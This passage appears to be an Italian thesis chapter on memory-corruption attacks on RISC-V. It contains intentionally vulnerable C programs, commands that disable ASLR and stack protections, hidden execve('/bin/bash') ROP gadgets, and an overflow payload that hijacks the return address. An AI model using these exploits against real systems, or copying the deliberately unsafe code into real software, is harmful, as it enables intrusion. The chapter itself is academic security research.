\chapter*{Capitolo 4}
\addcontentsline{toc}{chapter}{Capitolo 4}


\section*{Attacchi}
\addcontentsline{toc}{section}{Attacchi}
In questo capitolo verranno presentati i test e le tipologie di exploit sviluppati in questa tesi allo scopo di comprendere gli attacchi Buffer Overflow e Return Oriented Programming su architettura RISC-V. Si vedranno codici assembly, metodi di attacco su binari, schede elettroniche e costruzione di ROP-chain tramite LLMs.
\section*{Attacchi Memory Corruption}
\addcontentsline{toc}{section}{Attacchi Memory Corruption}
\subsection*{Buffer Overflow su SiFive u74-mc}
\addcontentsline{toc}{subsection}{Buffer Overflow su SiFive u74-m}
Questo è uno scenario che proviene dall'ISA \textit{RV64IMAFDC}, con un sistema operativo \textit{GNU/Linux Ubuntu 22.04.3 LTS}, che è attualmente uno dei nodi del Cluster RISC-V del Monte Cimone ospitato presso l'universita di Bologna\cite{mcimone}.\\
\begin{minted}[escapeinside=||,mathescape=true]{c}
void not_called() {
    printf("Enjoy your shell!\n");
    system("/bin/bash");
}

int test_empty() {
    printf("Empty function\n");
    return 1;
}

void vulnerable_function(char* string) {
    char buffer[100];
    test_empty();
    strcpy(buffer, string);
}

int main(int argc, char** argv) {
    vulnerable_function(argv[1]);
    return 0;
}
\end{minted}
Il codice mostrato sopra prende un buffer di 100 caratteri in input e li copia tramite \textit{strcpy()} in una stringa. La vulnerabilità, come detto in precedenza è la presenza della funzione \textit{strcpy()} che non controlla la lunghezza della stringa inserita.\\
È poi presente una funzione \textit{not\_called()} mai chiamata che fornisce una shell. Se questo programma viene attaccato tramite buffer overflow e l'attaccante riesce a saltare alla funzione che restituisce la shell, l'attaccante riesce ad ottenere una shell nel sistema. In aggiunta se il programma appartiene all'utente \textit{root} ed ha impostato il \textit{setuid bit} a 1 \cite{cbtnuggets}, l'attaccante avrà una shell come amministratore sul sistema.
Il primo step per testare un attacco Buffer Overflow è compilare il programma senza mitigazioni di sicurezza.
\begin{minted}{c}
gcc vuln.c -fno-stack-protector -z execstack -no-pie -Wl,-z,norelro -o riscv_bof.out
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
\end{minted}
In figura \ref{ref:riscv-decompiled} è presente l'analisi del decompilato tramite GDB, dove è possibile vedere il salto alla funzione vulnerabile e l'indirizzo di \textit{not\_called()} ottenuto tramite decompilatore.
\vspace{1cm}
\FloatBarrier
\begin{figure}[!htbp]
    \centering
    
\includegraphics[width=0.9\linewidth]{images/gdb_riscv.png}
    \caption{Decompilato RISC-V con GDB}
    \label{ref:riscv-decompiled}
\end{figure}
\FloatBarrier
\vspace{1cm}
Una volta individuata la vulnerabilità e aver visto che a tutti gli effetti \textit{vulnerable\_function()} è una funzione non-leaf, dato che chiama al suo interno un'altra funzione test\_emtpy(), è possibile strutturare l'attacco Buffer Overflow.\\
Per prima cosa deve essere riempito il buffer, quindi l'attaccante deve fornire un numero di caratteri (in questo caso ``A") abbastanza grande da saturare l'array. In questo codice è chiaro che l'attaccante deve fornire almeno 100 caratteri in input.\\
Come si vede dal disassemblato della funzione vulnerabile in figura \ref{ref:vuln-function}, vengono aggiunti 8 ulteriori byte (136-128) per riempire lo stack riservato dall'istruzione \textit{sd  ra,136(sp)} e altri 8 byte di cui 4 di padding e altri 4 per sovrascrivere l'indirizzo di ritorno con l'indirizzo dell'inizio della funzione \textit{not\_called()}. L'indirizzo è scritto al contrario perché l'architettura è little-endian.
\vspace{1cm}
\FloatBarrier
\begin{figure}[!htbp]
    \centering
    
\includegraphics[width=0.6\linewidth]{images/vulnerable-function.png}
    \caption{Disassemblato di vulnerable\_function()}\
    \label{ref:vuln-function}
\end{figure}
\FloatBarrier
\vspace{1cm}
Come è possibile vedere nella figura sottostante è poi possibile lanciare l'exploit utilizzando \texttt{(cat - ) | EXPLOIT} (oppure lanciando lo stesso comando da dentro GDB, ma usando l'istruzione \textit{run}) per immettere l'input dato dal programma python come argomento e tenere la shell aperta per una risposta dal programma. In questo caso la funzione \textit{not\_called()} va in loop perché non è stato gestito correttamente il ripristino dell'indirizzo di ritorno, ma dato che la funzione \textit{system()} opera una fork, verremo agganciati a quest'ultima che restituirà una shell semi-interattiva all'attaccante che ora avrà command execution sul sistema. Questo exploit a tutti gli effetti ha generato una backdoor.
\vspace{1cm}
\FloatBarrier
\begin{figure}[!htbp]
    \centering
    
\includegraphics[width=1\linewidth]{images/exploit_riscv_bof.png}
    \caption{Exploit basato su BOF su RISC-V}
\end{figure}
\FloatBarrier
\vspace{1cm}
È utile qui considerare una limitazione e differenza rispetto alle architettura x86\_64 e x86. In quest'ultimo tipo di architetture, infatti è possibile porre istruzioni NOP (opcode 90) \cite{NOP} per fare il cosiddetto ``NOP-slide" o ``NOP-sled", ovvero l'operazione di scivolare nello stack riempito di istruzioni NOP da 1 byte, fino al raggiungimento dell'istruzione voluta (di solito un salto). Se un attaccante atterra su un NOP slide, verrà infatti portato fino alla fine dello scivolo in cui ci sarà l'istruzione interessata. \\
Questo tipo di approccio è utilizzato in combinazione con gli shellcode e viene utilizzato quando all'attaccante non è conosciuta la dimensione del buffer attaccato, ma è anche utile nel caso in cui si voglia avere una parte dello stack riempita di istruzioni che non fanno nulla, evitando però gli 00, che simboleggiano il valore 0 in esadecimale, ma carattere NULL su UTF8 e che potrebbero mandare in crash l'exploit.
\vspace{1cm}
\FloatBarrier
\begin{figure}[!htbp]
    \centering
    
\includegraphics[width=0.2\linewidth]{images/nop-slide.png}
    \caption{NOP slide}
\end{figure}
\FloatBarrier
\vspace{1cm}
Su RISC-V un approccio in stile ``NOP-sled" non è sempre possibile in quanto non sempre è implementata nell'ISA una istruzione che fa NOP in un byte \cite{NOPArch}, ma in base all'implementazione possiamo avere \textit{ADDI x0, x0, 0} di 4 byte o un'istruzione compressa \textit{C.NOP} da 2 byte.\\
In aggiunta, l'insieme di NOP deve essere compatibile con le istruzioni load e store che vengono effettuate nei registri durante l'esecuzione del programma.
\subsection*{Return Oriented Programming con codice assembly inline}
\addcontentsline{toc}{subsection}{Return Oriented Programming con codice assembly inline}
Il seguente codice \cite{ctftime} presenta la vulnerabilità precedente, ovvero un buffer overflow ed ha all' interno del codice dei gadget ``hardcoded" in assembly.  L'idea di questo test è sfruttare i gadget messi apposta per generare una backdoor e avere un programma all' apparenza innocuo ma che chiamato con l'apposita sequenza esadecimale in input, genera una system call \textit{execve()} che restituisce una shell. 
\begin{minted}[escapeinside=||,mathescape=true]{c}
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void not_called() {
    asm ("li a7, 221");
    asm ("ecall");
    return;
}

int test_empty2() {
    asm ("li s1, 0x68732f6e69622f");   //hex of string /bin/bash
    asm ("sd s1, -16(sp)");
    asm ("addi a0,sp,-16");
    asm ("slt a1,zero,-1");
    asm ("slt a2,zero,-1");
    asm ("jal ra, 0x10506");
    return 1;
}

void test_empty() {
   puts("Test empty");
   return;
}

void vulnerable_function(char* string) {
    char buffer[100];
    strcpy(buffer, string);
}

int main(int argc, char** argv) {
    test_empty();
    vulnerable_function(argv[1]);
    return 0;
}
\end{minted}
Anche questo tipo di codice raramente verrebbe identificato da un antivirus su un sistema Linux che fa analisi statica, dato che la catena di istruzioni viene eseguita solo a runtime e a seguito di un exploit.\\
\newline
Analizzando il codice, la funzione \textit{vulnerable\_function()} una volta che l'attaccante riesce a generare l'overflow, deve stavolta atterrare su \textit{test\_empty2()} che possiamo immaginare come primo gadget dell'exploit, che carica sul registro \textit{s1} la stringa in esadecimale \textit{/bin/bash}. Successivamente viene caricata la stessa stringa nel registro \textit{a0} per essere utilizzata come argomento della chiamata di funzione successiva e vengono caricati i valori 0 nei rimanenti registri argomento a1 e a2, anche se questa operazione non è necessaria. Alla fine viene simulata una jump and link all'indirizzo della funzione \textit{not\_called()} che contiene i gadget necessari per fare una systemcall, pur non essendo una \textit{leaf function}.\\
\newline
Questo salto, pur non dirottando il flusso di esecuzione del programma, è un primo esempio di Return Oriented Programming, che utilizza pezzi di codice trovati sparsi per le funzioni per costruire una chain effettiva ed eseguire dcodice arbitrario. L'exploit che viene presentato ha come scopo quello di aprire una shell sul sistema.\\
\newline
Utilizzando tool come ROPGadget il codice assembly hardcoded è a tutti gli effetti riconosciuto come una serie di gadget ``preziosi" e può essere trovato tramite opportuni filtri. Un esempio di query per trovare gadget di profondità (importanza) 10 su architettura RISC-V è il seguente.
\begin{minted}[escapeinside=||,mathescape=true]{c}
ROPgadget --rawMode=64 --rawArc=riscv --rawEndian=little --depth=10 
--offset 0000000000010000 --binary=rop.o > gadgets
\end{minted}
È importante ricordare che lo stack è gestito dal compilatore, ovvero da \textit{GCC} nei casi precedenti di compilati. Di seguito è presentato un esempio in cui si è scritto un codice assembly che senza usare elementi dello stack usa i registri (load immediate e load address) per caricare gli argomenti e la \textit{ecall} per scatenare una system call ed aprire una shell. 
\begin{minted}[escapeinside=||,mathescape=true]{c}
.global _start

.section .text
_start:
	la a0, shell
	li a1, 0
	li a2, 0
	li a7, 221
	ecall 

	li a0, 1
	li a7, 93
	ecall

shell:
 .ascii "/bin/bash"
\end{minted}
 In questo caso essendo una funzione priva di input da parte dell'utente scritta direttamente a basso livello, è invulnerabile a buffer overflow o altri exploit.\\
 Lo stesso codice compilato con GCC avrebbe prologhi ed epiloghi di funzioni che il compilatore crea per gestire le molteplici chiamate di funzione, con istruzioni del tipo \texttt{addi sp,sp -32} e \texttt{sd ra, 24(sp)}
 \subsection*{Manipolazione dei registri S}
\addcontentsline{toc}{subsection}{Manipolazione dei registri S}
In questa sezione si analizza la possibilità di usare registri S (callee saved) come gadget per eseguire codice arbitrario. Vengono scelti questi registri perché più facili da preservare tra le chiamate di funzione (il chiamante deve ripristinarli, quindi non sono ripristinati nella stessa funzione).\\
È più facile gestire i registri S, ma anche più difficile trovarli nel disassemblato, infatti vengono usati molto meno spesso rispetto a registri argomento \textit{a0-a7} che però vengono ripristinati nella stessa funzione e perdono l' importante caratteristica cercata.\\
\newline
Questa sezione di codice dichiara un registro \textit{s2} che verrà utilizzato nella funzione \textit{exit\_function()} come indirizzo sorgente il cui valore verrà copiato nel primo registro argomento della system call \textit{exit()}. Un attaccante, controllando un potenziale overflow, potrebbe riuscire a saltare all'istruzione \texttt{asm volatile ("li s2, 1");} invece che far proseguire l'esecuzione del programma all'istruzione \texttt{asm volatile ("li s2, 0");}. Il salto \texttt{asm volatile ("jal ra, exit\_function +22");} fa proprio questo, cercando di emulare una ROP e atterrando nella funzione \textit{exit\_function()} appena prima che venga eseguita l'operazione del registro \textit{s2}.\\
La firma della \textit{exit()} dichiara che la funzione accetta come primo argomento un intero che sarà il codice di uscita del programma. Un programma che termina correttamente su GNU/Linux e nello standard C ha codice di uscita 0.
\begin{minted}[escapeinside=||,mathescape=true]{c}
#include <stdio.h>
void not_called(){
	asm volatile ("li s2, 1");
	asm volatile ("jal ra, exit_function +22");
	return;
}

void exit_function(){
	printf("exit function\n");
	asm volatile ("li s2, 0");
	asm volatile ("mv a0, s2");
	asm volatile ("li a7, 93");
	asm volatile ("ecall");
	return;
}

int main(){
	register long s2 asm ("s2");
	asm volatile ("jal ra, not_called");
	return 0;
}
\end{minted}
Come viene mostrato nell'immagine seguente, non importa quale registro viene utilizzato per passare il valore (essendo tutti i registri general purpose), ma cosa viene copiato alla fine sul registro \textit{a0} prima della system call. Un attaccante potrebbe sfruttare questa metodologia per preservare i valori passati sui registri S tra le chiamate a funzione ed utilizzarli solo alla fine come registri ``da copiare" nei registri argomento.\\
Come si vede nell'immagine seguente, il programma una volta eseguito riesce a manipolare la system call \textit{exit()} avendo un return code di 1, invece che 0.
\vspace{1cm}
\FloatBarrier
\begin{figure}[!htbp]
    \centering
    
\includegraphics[width=0.9\linewidth]{images/manipulate_exit.png}
    \caption{Manipolazione syscall exit tramite registri \textit{S}}
\end{figure}
\FloatBarrier
\vspace{1cm}
Usando ROPGadget e filtrando il registro s2, è possibile trovare nel binario gli stessi gadget messi ``ad-hoc" nel codice C. Questo perché ROPGadget è programmato per cercare gli epiloghi di funzioni interessanti, quando si specifica l'architettura RISC-V.
\vspace{1cm}
\FloatBarrier
\begin{figure}[!htbp]
    \centering
    
\includegraphics[width=0.9\linewidth]{images/ROPGadgets_s2.png}
    \caption{ROPGadget e filtro sui registri \textit{S}}
\end{figure}
\FloatBarrier
\vspace{1cm}
Un test simile, ma qua non riportato è stato effettuato anche per i registri \textit{a} ``alti" (\textit{a4-a7}) che possono essere usati come registri sorgente, anche se devono però essere ripristinati.
\subsection*{Manipolazione della system call exit tramite ROP}
\addcontentsline{toc}{subsection}{Manipolazione della system call exit tramite ROP}
Utilizzando la Return Oriented Programming è possibile manipolare il flusso di un programma, se trovati i giusti gadget e fatti i giusti salti. Nel disassemblato in figura \ref{ref:rop-exit-manipulation} si può vedere la chiamata della system call \textit{exit} che viene eseguita dopo aver caricato il valore 3 nel registro \textit{a0}. Se un attaccante manipola il registro \textit{a0} trovando un gadget che lo imposta ad un altro valore, sarà in grado di chiamare la system call con valori arbitrari. Questo è quello che succede nella seguente ``Proof of concept" in cui nella funzione \textit{test\_emtpy2()} l'attaccante trova il giusto gadget per manipolare il registro \textit{a0} per poi saltare (in questo caso in modo hardcoded, per facilità di test) all'istruzione prima della system call exit.
\vspace{1cm}
\FloatBarrier
\begin{figure}[!htbp]
    \centering
    
\includegraphics[width=1\linewidth]{images/rop_exit.png}
    \caption{Manipolazione syscall exit con ROP}
    \label{ref:rop-exit-manipulation}
\end{figure}
\FloatBarrier
\vspace{1cm}
È possibile in questo modo manipolare il valore restituito dalla \textit{exit} (e quindi il codice di errore del programma) che sarà diverso a seconda del salto dell' attaccante.\\
Se il payload fa atterrare l'attaccante all'indirizzo \textit{0x1059a}, il programma restituirà come codice di errore \textit{3}, mentre se l'attaccante atterra all'indirizzo \textit{0x105c0}, il programma restituirà come codice di errore \textit{7}. L'attacco dipende quindi dall'indirizzo di ritorno passato nell'exploit e definisce il tipo di attacco come Return Oriented Programming.\\
È evidenziato in giallo nella figura il differente salto che porta a differenti risultati.
\subsection*{Data Oriented programming in RISC-V}
\addcontentsline{toc}{subsection}{Data Oriented programming in RISC-V}
Non sempre occorre trovare delle chain per manipolare l'indirizzo di ritorno di un programma per comprometterne il funzionamento una volta trovato il buffer overflow, ma è anche possibile dotarsi di elementi che l'attaccante stesso mette nello stack i quali non vengono eseguiti (a causa delle mitigazioni) ma possono comunque essere letti dal programma.\\
Prendendo come riferimento il seguente codice C, è possibile vedere come la funzione \textit{not\_called()} faccia la chiamata della syscall \textit{exit} utilizzando il registro \textit{a6} come registro sorgente di \textit{a0}. Se un attaccante riesce a sovrascrivere l'area di memoria nella quale risiede il registro \textit{a6} è possibile quindi manipolare anche il registro argomento \textit{a0}. Studiando come il compilatore salva i valori nei registri, si è potuto notare come il registro \textit{a6} venga posto in memoria estremamente vicino al buffer \textit{char buffer[64];} e di conseguenza raggiungibile tramite overflow senza compromettere il funzionamento degli altri registri argomento nelle vicinanze.
\begin{minted}[escapeinside=||,mathescape=true]{c}
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

void not_called() {
    printf("exit function\n");
    asm volatile ("li a6, 0");
    asm volatile ("mv a0, a6");
    asm volatile ("li a7, 93");
    asm volatile ("ecall");
    return;
}

int test_empty() {
    printf("Empty function\n");
    return 1;
}

void vulnerable_function(char* string) {
    char buffer[64];
    test_empty();
    strcpy(buffer, string);
}

int main(int argc, char** argv) {
    vulnerable_function(argv[1]);
    return 0;
}
\end{minted}
Eseguento il programma normalmente, si ha un codice di uscita di 0, ritornando senza codice di errore, ma tramite Data Orieted Programming (DOP) si può manipolare questo codice con valori a piacere passati sullo stack.\\
Nel payload seguente è stato costruito un exploit per mandare in overflow il programma con i primi 64 byte nei quali è anche presente l'indirizzo di partenza del registro a6. Scrivendo in questa area di memoria è infatti possibile sovrascrivere anche i valori di questo registro e (in questo caso specifico) impostarlo ad un valore arbitrario.
\begin{minted}{bash}
./rop.out "$(python3 -c 'print("A"*56 + "\x01" + "B"*15 + "\x5a\x05\x01\x00")')"
\end{minted}
In base a cosa viene immesso nell'exploit dopo il 56-esimo carattere ``A" sottoforma di valore esadecimale, si avrà poi il registro \textit{a6} caricato di quel singolo valore. Con \textit{x01} si imposterà il registro a 1, con \textit{x02} a 2 e così via.\\L'esecuzione del programma e quindi il suo valore di uscita chiamato tramite la syscall \textit{exit()} dipenderà esclusivamente da come l'attaccante metterà i dati nello stack e quindi il flusso di esecuzione è detto ``Data Oriented".\\
La system call viene poi chiamata tramite un salto e quindi sovrascrivendo l'indirizzo di ritorno della funzione \textit{vulnerable\_function()} per atterrare nel gadget \texttt{li a6, 0} e caricare nel registro quello che è presente nello stack.
Di seguito un esempio dell'exploit appena spiegato eseguito su una scheda \textit{MILK-V} duo S.
\vspace{1cm}
\FloatBarrier
\begin{figure}[!htbp]
    \centering
    
\includegraphics[width=1\linewidth]{images/exit_manipulation_stack.png}
    \caption{Data Oriented Programming}
\end{figure}
\FloatBarrier
\vspace{1cm}
\section*{Attacchi all'hardware}
\addcontentsline{toc}{section}{Attacchi all'hardware}
